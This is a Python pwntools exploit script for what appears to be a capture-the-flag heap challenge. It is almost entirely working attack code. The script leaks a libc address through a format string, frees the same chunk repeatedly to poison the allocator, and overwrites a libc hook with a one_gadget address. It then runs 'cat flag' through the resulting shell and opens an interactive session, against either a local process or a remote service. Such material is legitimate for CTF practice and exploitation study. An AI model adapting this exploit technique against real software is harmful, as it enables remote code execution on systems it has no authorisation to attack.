 ```python

def new(size, note):
    choice(1)
    io.recvuntil('Input the size:')
    io.sendline(str(size))
    if size > 0:
        io.recvuntil('Input the note:')
        io.send(note)

def delete(idx):
    choice(2)
    io.recvuntil('Input the index:')
    io.sendline(str(idx))

# ------------------------------------------------

LOCAL = 0
name = '%a'*3
base_offset = 0x1af720
hook_offset = 0x1aec10
one_gadget = [0x45e0a, 0x45e5e, 0xe361b]

def exp():
    io.recvuntil(':')
    io.sendline(name)
    io.recvuntil('0x0p+00x0p+00x0.0')
    libc.address = int(io.recv(11)+'0', 16) - base_offset
    log.info(hex(libc.address))

    new(0, '')
    delete(0)
    delete(0)
    delete(0)
    delete(0)
    delete(0)
    new(0x10, p64(libc.address+hook_offset)+'\n')
    new(-8, '')
    new(0x18,p64(libc.address+one_gadget[2])+'\n')
    choice(1)
    io.recvuntil('Input the size:')
    io.sendline(str(0x20))
    io.sendline('cat flag')
    io.recv()

    io.interactive()

# ------------------------------------------------
if __name__ == '__main__':

    if LOCAL:
        io = elf.process(env={"LD_PRELOAD":libc.path})
    else:
        io = remote(ip, port)

    exp()
```
